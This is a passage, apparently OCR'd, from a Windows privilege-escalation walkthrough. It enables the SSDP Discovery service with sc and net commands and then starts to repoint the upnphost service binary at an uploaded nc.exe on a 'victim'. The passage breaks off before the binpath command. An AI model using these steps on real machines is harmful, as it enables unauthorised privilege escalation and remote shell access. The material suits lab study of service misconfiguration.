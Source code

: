      # Attempt to start the service								

      C:\> net start SSDPSRV
      System error 1058 has occurred.

   The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.								
    							

   In order to fix this, we will need to set the SSDPSRV from DISABLED to AUTOMATIC. Once the service is set to AUTOMATIC we will be able to start it. We can do this with the following commands.

      # Set SSDPSRV to AUTOMATIC
      # NOTE: There is a space between = and auto. This is important, else the command will fail.								

      C:\> sc config SSDPSRV start= auto
      [SC] ChangeServiceConfig SUCCESS
    								
   # Double check if it's set to AUTOMATIC (or AUTO_START)
    								
      C:\> sc qc SSDPSRV
      [SC] GetServiceConfig SUCCESS

      SERVICE_NAME: SSDPSRV
              TYPE               : 20  WIN32_SHARE_PROCESS 
              START_TYPE         : 2   AUTO_START
              ERROR_CONTROL      : 1   NORMAL
              BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService  
              LOAD_ORDER_GROUP   :   
              TAG                : 0  
              DISPLAY_NAME       : SSDP Discovery Service   
              DEPENDENCIES       :   
              SERVICE_START_NAME : NT AUTHORITY\LocalService							

   SSDPSRV is successfully set to AUTOMATIC (AUTO_START)! Now let's try to start SSDPSRV again.

      C:\> net start SSDPSRV
      The SSDP Discovery Service service is starting.
      The SSDP Discovery Service service was started successfully.							
    							

   
   Once nc.exe is uploaded to your victim, take note of its current path, because we will need it now we are going to edit the parameters from the upnphost service. Execute the commands below to edit the path of the binary that the upnphost service will execute when it's started.

      # Set new binary path (don't forget the space after binpath=)							
      # Syntax
